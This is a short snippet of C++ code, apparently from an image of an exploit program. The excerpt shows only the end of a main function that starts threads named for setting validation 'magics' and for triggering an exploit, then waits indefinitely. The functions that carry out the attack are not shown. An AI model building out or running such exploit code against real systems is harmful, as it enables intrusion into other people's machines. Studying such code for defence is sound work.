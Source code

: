 ```C++
	if (hSetGlobalsThread == NULL)
	{
		printf("Error: Creating thread to continue to set the magics FF\r\n");
		return 0;
	}

	HANDLE hGlobals00 = CreateThread(NULL, 0, TpSetPassValidationMagics, NULL, 0, NULL);
	if (hGlobals00 == NULL)
	{
		printf("Error: Creating thread to continue to set the magics 00\r\n");
		return 0;
	}

	HANDLE hExploitTrigger = CreateThread(NULL, 0, TpTriggerExploit, NULL, 0, NULL);
	if (hExploitTrigger == NULL)
	{
		printf("Error: Creating thread to continue to trigger the exploit failed\r\n");
		return 0;
	}

	Sleep(INFINITE);

	return 0;
}

```